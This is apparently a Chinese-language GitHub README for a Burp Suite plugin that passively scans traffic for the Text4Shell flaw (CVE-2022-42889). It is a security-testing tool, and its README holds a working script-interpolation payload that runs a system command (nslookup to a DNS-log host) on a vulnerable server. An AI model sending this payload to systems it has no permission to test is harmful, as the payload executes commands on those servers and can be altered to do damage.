 # BurpText4ShellScan

---

使用java编写的Text4shell burp被动扫描插件

# 简介

---

java maven项目，可以使用`mvn package`进行编译

# 更新

---

```
1.0 - 首次上传，对所有经过burp的包进行被动扫描，扫描对象包括了json、xml、fileupload
```

# payload

---

```
- "%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nslookup+dns-url%27%29%7D"
- "${script:javascript:java.lang.Runtime.getRuntime().exec('nslookup dns-url')}"
```

可以在`resources/config.yml`修改

# 使用

---

### 0x01 搭建环境

使用github中的[https://github.com/karthikuj/cve-2022-42889-text4shell-docker](https://github.com/karthikuj/cve-2022-42889-text4shell-docker)搭建环境

![image-20221217013031381](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217013031381.png)



### 0x02 插件

代理访问`http://yourip:80/text4shell/attack?search=aaa`，开始扫描

在logger中可看见插件发送的包

![image-20221217013353536](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217013353536.png)

仅对是否可以dnslog进行扫描，若dnslog接受到请求，则爆出漏洞

![image-20221217013651624](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217013651624.png)

![image-20221217013717306](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217013717306.png)

### 0x03 配置

在`resources/config.yml`中的`dnsLogModule`修改dnslog配置

![image-20221217014026078](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217014026078.png)



# 参考

---

[https://github.com/pmiaowu/BurpFastJsonScan](https://github.com/pmiaowu/BurpFastJsonScan)

[https://github.com/f0ng/log4j2burpscanner](https://github.com/f0ng/log4j2burpscanner)

# 免责声明

---

该工具仅用于安全自查检测

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。